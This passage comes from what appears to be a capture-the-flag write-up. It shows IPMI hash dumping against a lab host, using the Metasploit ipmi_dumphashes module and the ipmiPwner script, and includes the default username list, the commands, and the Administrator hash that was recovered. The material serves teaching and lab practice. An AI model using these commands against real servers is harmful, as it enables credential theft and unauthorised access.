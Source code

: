 This script will take a list of users (default list is one called
`ipmi_users.txt`) and ask for hashes for each of them. That list is
actually quite short:



    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > cat /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt
    [*] exec: cat /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt

    ADMIN
    admin
    root
    Administrator
    USERID
    guest
    Admin



I could try asking for other names if I wanted to as well, but I'll
start with the recommended list.

It returns one hash:



    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

    [+] 10.10.11.124:623 - IPMI - Hash found: Administrator:bfa382dc840500003332ec77155a87c439e4e063befc86ee45c6a9549950eceba32da628f637a746a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f4b2dcc03c98373e2ebe667693aa6a88651ffebb
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed



#### With ipmiPwner

[ipmiPwner](https://github.com/c0rnf13ld/ipmiPwner) is a Python script
that can do similar attacks. I'll clone the repo, and then run
`requirements.sh` to get my system prepped.

By default it will try the same list as MSF:

![](/img/image-20220331100028573.png)

Running it with only the `--host [ip]` argument returns the hash for
Administrator:



    oxdf@hacky$ sudo python3 ipmipwner.py --host 10.10.11.124
    [*] Checking if port 623 for host 10.10.11.124 is active
    [*] Using the list of users that the script has by default
    [*] Brute Forcing
    [*] Number of retries: 2
    [!] Wrong username ADMIN
    [!] Wrong username admin
    [*] The username: Administrator is valid
    [*] The hash for user: Administrator
       \_ $rakp$a4a3a2a0820a0000f793de846396a33033290affdcb188a1b6db9aaa178ce75290b2fd6cfd76bac7a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$ac4f0b33225a3d1d4c5b7e423c094ef72bc4997d
